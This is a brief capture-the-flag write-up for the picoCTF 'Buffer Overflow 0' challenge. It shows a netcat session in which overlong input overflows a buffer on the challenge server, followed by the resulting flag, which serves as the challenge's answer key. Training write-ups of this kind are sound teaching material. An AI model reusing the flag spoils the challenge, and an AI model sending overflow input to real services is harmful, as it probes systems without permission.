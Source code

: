 # Buffer Overflow 0
Challenge:Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.

Additional details will be available after launching your challenge instance.  

After launching the instance, we get a command to connect to the server. --> nc saturn.picoctf.net 51352
After connecting to the server, the server asks for input. After spamming the input with characters, we get the flag.
```
┌──(divyesh㉿macbook)-[~]
└─$ nc saturn.picoctf.net 55791
Input: adajbfleghgaruhlkjashdfjkashfkljsdhfjklashfda
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
                                                                             
┌──(divyesh㉿macbook)-[~]
└─$ 
                                                                             
┌──(divyesh㉿macbook)-[~]
```
flag -> picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
